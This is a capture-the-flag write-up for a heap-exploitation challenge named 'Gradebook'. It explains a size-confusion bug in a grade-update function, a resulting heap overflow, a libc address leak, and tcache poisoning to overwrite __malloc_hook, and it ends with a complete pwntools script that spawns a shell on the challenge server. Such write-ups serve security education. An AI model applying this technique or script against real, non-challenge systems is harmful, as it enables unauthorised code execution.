





# Gradebook

Category: pwn

454 Points (24 solves)

> My teachers been using a commandline gradebook made by a first year student, must be vulnerable somehow.
>
> `nc ctf.k3rn3l4rmy.com 2250`

Two files are provided, a Linux 64-bit executable and a libc shared object file. First, let's look at the security protections on the executable:

```
➜  checksec gradebook  
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Oh wow, everything is enabled!

Next, I used IDA to decompile the binary. The main function features a menu, where the user can choose to run several operations:

1. Add student
2. List students
3. Update grade
4. Update name
5. Close gradebook

At this point, given all the stack protections applied to the binary and the presence of a menu, I guessed that this was going to be a heap challenge. This was going to be fun, but challenging as it's the first time I've solved a heap challenge in a CTF.

Anyway, let's get on with analyzing each function.

## Static analysis

Let's start with `add_student`:


First, a block of memory 24 bytes long is allocated on the heap (line 9). This will be used to store metadata about the student. Next, we are prompted for a student ID (line 11 and 12) and the lookup function checks that the student ID was not previously assigned. This has a maximum length of 8 characters and there doesn't appear to be any buffer overflow here. Next, we are prompted for the length of the student's name (line 17 and 18) and a buffer of equal size is allocated on the heap (line 19). This size is stored into `[s+12]`. 

We can then write data into this buffer. Again, it appears there is no buffer overflow as there is adequate bounds checking. One note is `read` does not null terminate its output, so it could allow us to read stuff that's immediately after the string. Finally, a pointer to this buffer is stored into the metadata buffer and a pointer to the metadata buffer is stored into the global students array. 

At this point, we should note that the maximum number of students we can create is 9, due to a check in the main function. But it's not really important as we'll be creating much fewer than 9 students.

While this function is not very interesting as it's not very vulnerable, it's the core of this application. 

Let's move on to the `update_grade` function. This is where it gets more interesting:


We are prompted for a student ID. If this ID is valid, we are prompted for a number, which is supposed to be between 0 and 100. But is it really? Let's look at the check involved. Firstly, the format specifier used in line 20 is `%ld` instead of `%d` as we would usually expect for integers. In fact, `%ld` is the format specifier for longs, which are usually 64 bits (or 8 bytes or 4 words) long, while integers are usually 32 bits (4 bytes or 2 words) long. 

Suppose the grade I enter is `0xaaaaaaaabbbbbbbb` (there are 8 `a`s and 8`b`s, which make up 64 bits in total). Since the binary is little-endian, this number is stored in memory as `bb bb bb bb aa aa aa aa`. In line 20, the memory at `[s+8]` is compared as an int, which is only 4 bytes. Thus, only the less significant 32 bits (`0xbbbbbbbb`) will be read and compared. Since this is much larger than 100, the else block is executed, which supposedly sets the grade to `-1`. However, it only operates on a `DWORD` (double word ie 4 bytes) of memory. This leaves the `aa aa aa aa` untouched. In the end, the memory at `[s+8]` will look like `ff ff ff ff aa aa aa aa`. 

Well, clearly something unexpected is happening here: we're writing 8 bytes, when we should only be writing 4 bytes. Where do the other 4 bytes end up? If we look back to the `add_student` function above, `[s+12]` is actually where the size of the student's name buffer is stored. This is very important, as meddling with the size could allow us to perform a buffer overflow and write arbitrary data. 

In fact, the next function, `update_name` allows us to do just this:


In line 19, `read` is used to write data into the student's name buffer, except this time the size (param 3) is read from `[s+12]`, which we now control. As the buffer is not resized, we can achieve a buffer overflow!

The remaining functions, `close_gradebook` and `list_students` are not particularly interesting.  `close_gradebook` frees all the metadata and student name buffers and sets references to them to null, so there's not double free vulnerability here. `list_students` prints out the name and ID of the students.

## Dynamic analysis

With a bit better understanding of the binary, we can move on to running and debugging the binary. However, since the binary comes with its own libc, things are not quite so straightforward. 

First, we need to patch the binary and download a relevant linker with [`pwninit`](https://github.com/io12/pwninit). This will make sure that we are running the binary with the provided libc instead of the default on our machines. It also helpfully generates a simple solve script.

With that out of the way, we can debug the binary with `gdb`. I used gdb with gef, as it comes with great tools for inspecting the heap as well as support for PIE breakpoints. We'll need to make sure gdb knows which libc to use, which we can set with the `LD_PRELOAD` environment variable. The command I used to start gdb is:

```shell
gdb -iex "set exec-wrapper env LD_PRELOAD=$(pwd)/libc.so.6" ./gradebook
```

Ok, now we can finally get down to debugging. We set a PIE breakpoint at `0x1912` (the `scanf` in the main function) and run the binary. It's important that we use `pie break` and not `break` as the address we want to break on isn't actually known until runtime.

```
pie break *0x1912
pie run
```

Once we hit the breakpoint, we continue and create a student by entering `1` on the menu. Let's set the student ID as `a1` and use 20 bytes for the student's name, which we'll set as "aaaaaa".

We should hit the breakpoint again. Let's use `heap chunks` to inspect the heap:



Aside from the `aaaaaa` and `a1` that we entered, we see the size `20 = 0x14` (red arrow) next to the `ff ff ff ff`, which is `-1` in 2's complement, which is the current grade. We also note that the student's name is not null terminated (green arrow). Well you can't see it as it's all null bytes, but it is null terminated.

Let's try editing the grade next. We'll edit `a1`'s grade and enter 806022195882, which is the decimal representation of `0xbbaaaaaaaa`. Note that we actually trigger the else block, since the error message is printed:


After we hit the breakpoint, run `heap chunks` again to inspect the heap.



The `0x14` we saw in the previous heap dump, is replaced by `0xbb`, as expected. (If this confuses you, remember things are little endian, so the `bb` represents the most significant byte). This is a huge win for us as we've tricked the binary into thinking the size is `0xbb = 187`, when only `0x14 = 20` bytes are allocated. This means we can overflow the buffer by 167 bytes. Hooray!

Let's test this out by screwing up the memory. Update the student's name with a really long string and dump the heap again:


As you can see, we've completely screwed up the next chunk in the heap by overwriting its metadata, which includes its size. This chunk happens to be the top chunk, which you could use for more complicated heap attacks, but we're not going to do that in this challenge.


## Exploit development

Ok, so now we kinda know how the binary works, and we've validated parts of our attack, including the crucial heap buffer overflow.

Here's a rough, high level overview of what we'll do in this section:

1. Leak libc base
2. Get `malloc` to return a chunk at `__malloc_hook`
3. Write a one gadget to that malloc hook
4. Allocate a chunk
5. Get shell

Step 1 and 2 are much harder than they seem and are the main points of this exploit. 

If you've done heap exploitation before, you're probably really used to this. 

If you haven't done any heap challenges before, you should watch [this video](https://youtu.be/43ewpRBIRgA?t=1191) that explains the heap pretty well, especially what happens after freeing heap memory (specifically for the tcache). 

The first step is to leak the libc address. This is really important because ASLR is probably enabled and since `__malloc_hook` is in libc, we need to know exactly where it is in order to write to it.

To do this, I created two students, longname, with name buffer size 1250, and shortname, with name buffer size 20.


I've given them student IDs a1 and a2 respectively. Now I'll free both of them.

Next, I run `heap bins` to find out where the freed memory went.



As expected, all of the small chunks went to the tcache, but the large chunk went to an unsorted bin. This is expected as the tcache has a maximum chunk size of 1032 bytes.

Let's run `heap chunks` to see what has become of the data:



The smaller chunks' data is replaced by forward pointers, which are part of the tcache structure. The tcache is basically a linked list of freed blocks, and when a small amount memory is allocated, the tcache is accessed to find a suitable block.

What's interesting is the large block at address `0x5555555592c0`. Instead of heap addresses, they look like much higher stack addresses. I'm not too familiar with how unsorted bins are organized, but luckily for me, this addresses has a constant offset of +`0x1ebbe0` or +2014176 from the libc base address. 

To read this data, we reallocate student a1, with name size 1250 and write 7 characters + newline as the name. `malloc` will return the same chunk, which contains the address we want to read. Since `read` is not null terminated, when the name of the student is read, the address will be read along with it too. 


You can see that the name `abcdefg` is right up against the address we want to read, with a newline character separating the two. When the students are listed, this address will be leaked.


From here's its trivial to use pwntools to extract and decode this address. However, we must remember to append two null bytes before decoding as only 6 bytes of the 8 byte address are actually set, and the address is printed in little endian.

Ok, so we've gotten our libc leak. Half the battle is won!

Next, we will use the heap overflow that we explored earlier to screw up the tcache structure and get malloc to return a pointer to `__malloc_hook`. 

First, we edit the grade of `a1` so that we can write beyond the 1250 bytes that we've been allocated. I used `0xbbbbaaaaaaaa = 206414696589994`, which gives us `0xbbbb = 48059` bytes to play with, which is much much more than sufficient.

Here's the heap after we've overwritten the size of the name buffer:


The size has been changed from `0x04e2 = 1250` (remember little endian) to `0xbbbb = 48059`. 

I've also run `heap bins` to look at the tcache. As I've mentioned earlier, the tcache is a linked list of freed memory blocks. The pointers to the next block in the linked list are stored in the block itself. The exact structure of the tcache varies by libc version (we're using 2.31), and [from libc 2.29 to 2.31, it looks like this](https://chowdera.com/2020/11/20201127020131284a.html):

```c
typedef struct tcache_entry
{
  struct tcache_entry *next;  // the next tcache block
  /* This field exists to detect double frees.  */
  struct tcache_perthread_struct *key;  // newly pointer in struct
} tcache_entry;
```

The tcache starts at `0x00005555555597d0` with `next` pointing to `0x5555555592a0` (green arrow). `0x5555555592a0` is itself a tcache block, but its `next` pointer is null. This signals the end of the tcache. When memory blocks of size `20` are allocated, the block at `0x00005555555597d0` will be used first. Then, the value at the `next` pointer will be stored in the stack and set as the start of the tcache. This process repeats until the tcache is empty. In our case, the first allocation is used to store student metadata, while the second allocation stores the student name, which we can write to.

By using our heap overflow, we can overwrite the `next` pointer of  `0x00005555555597d0`. Thus, when `0x00005555555597d0` is allocated, the start of the tcache will become whatever address we wrote. Then, when the next block is allocated, `malloc` will return a pointer to the address we wrote, since we've tricked it into thinking that's part of the tcache. We can then write arbitrary data into this address.

Let's see this attack in action. The name buffer of a1 starts at `0x00005555555592c0`, and the next pointer we want to write is at `0x00005555555597d0`. It seems that the offset is 1296 bytes. However, there is a header containing metadata about the chunk size that starts 8 bytes before the data. Therefore, the offset is actually 1288. The metadata is `0x21`, which consists of the chunk length (32 = 0x20), with the least significant bit set as a flag (`PREV_INUSE`).


Here's what I got after running the attack:


`heap chunks` is really screwed up as we've overwritten the metadata of one of the chunks with As, but the tcache linked list shows us what we want to see. At the head is `0x5555568e37d0`, which points to `0x7f1aba80fb70`, which is the `__malloc_hook` address!



Whenever `malloc` is called, if `__malloc_hook` is not null, it will be treated as a function pointer and the function at the address it points to will be called. I used [`one_gadget`](https://github.com/david942j/one_gadget) to find a suitable one gadget to jump to. Fortunately, `0xe6c81` worked and I got a shell!


## Script

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./gradebook")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe


def conn():
    if args.LOCAL:
        return process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})
    else:
        return remote("ctf.k3rn3l4rmy.com", 2250)

def main():
    r = conn()
    r.sendline("1")
    r.sendline("a1")
    r.sendline("1250")
    r.sendline("a"*20)
    r.recvuntil("Exit Gradebook")
    r.sendline("1")
    r.sendline("a2")
    r.sendline("10")
    r.sendline("hi")
    r.recvuntil("Exit Gradebook")
    # I encountered a bit of a race condition, which is weird
    time.sleep(1)
    r.sendline("5")
    r.recvuntil("Exit Gradebook")
    r.sendline("1")
    r.sendline("b1")
    r.sendline("1250")
    r.sendline("a"*7)
    r.recvuntil("Exit Gradebook")
    r.sendline("2")
    r.recvuntil("NAME: aaaaaaa\n")
    d = r.recvuntil("STUDENT ID")
    data = d.split(b"\n")[0]+b"\0\0"
    print(data)
    leak = u64(data)
    
    libc_addr = leak - 2014176
    print(hex(libc_addr))
    libc.address = libc_addr
    
    r.sendline("3")
    r.sendline("b1")
    r.sendline(str(0xaaaaaaaaaaaaaa))
    r.recvuntil("Exit Gradebook")
    r.sendline("4")
    r.sendline("b1")
    print(hex(libc.sym.__malloc_hook))
    r.sendline(b"a"*(1256+32)+p64(0x21)+p64(libc.sym.__malloc_hook))
    r.recvuntil("Exit Gradebook")
    r.sendline("1")
    r.sendline("a3")
    r.sendline("20")
    r.sendline(p64(0xe6c81 +libc.address))
    r.recvuntil("Exit Gradebook")
    r.sendline("1")
    r.sendline("a4")
    r.sendline("20")

    r.interactive()


if __name__ == "__main__":
    main()
```

